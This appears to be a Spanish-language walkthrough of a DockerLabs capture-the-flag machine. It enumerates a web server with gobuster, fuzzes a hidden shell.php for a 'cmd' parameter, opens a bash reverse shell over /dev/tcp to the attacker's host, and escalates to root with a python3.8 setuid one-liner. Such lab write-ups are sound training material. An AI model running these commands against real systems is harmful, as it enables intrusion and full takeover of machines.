 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![image](https://github.com/user-attachments/assets/fa52b375-21db-4e37-ba73-7f084d8819ad)

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![[dockerlabs/facil/walking dead/backup.png]]

un hidden

![[dockerlabs/facil/walking dead/hidden.png]]

probamos el hidden con el shell.php que nos mostro el código fuente

![[shell.php.png]]

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![[shell1.png]]

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![[dockerlabs/facil/walking dead/conexion.png]]

ahora escalamos a root, encontramos esto

![[escalada 1.png]]

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 

